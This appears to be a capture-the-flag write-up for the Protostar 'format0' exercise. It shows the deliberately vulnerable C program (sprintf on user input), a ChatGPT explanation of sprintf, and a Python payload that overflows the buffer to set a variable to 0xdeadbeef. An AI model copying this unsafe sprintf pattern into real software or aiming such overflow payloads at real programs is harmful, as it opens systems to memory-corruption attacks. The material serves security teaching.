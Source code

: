 source code
```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

Ask ChatGPT what `sprintf` does:

`sprintf()` 是一个 C 语言中的字符串格式化函数，用于将格式化的数据写入字符串缓冲区中。它的原型如下：

```C
int sprintf(char *str, const char *format, ...);
```

e.g.

```C
#include <stdio.h>

int main() {
    char buffer[100];
    int number = 42;
    float floatNumber = 3.14;

    sprintf(buffer, "The number is %d and the float number is %.2f", number, floatNumber);

    printf("%s\n", buffer);

    return 0;
}

```

So basicly the same vulnerability as `strcpy`.

`solve.py`
```python
from __future__ import print_function
from struct import pack

offset = 64
target = pack('<I', 0xdeadbeef)
payload = b'A' * offset
payload += target

print(payload, end='')
```

Let's see,
```shell
user@protostar:~$ ./format0 $(python solve.py)
you have hit the target correctly :)
```

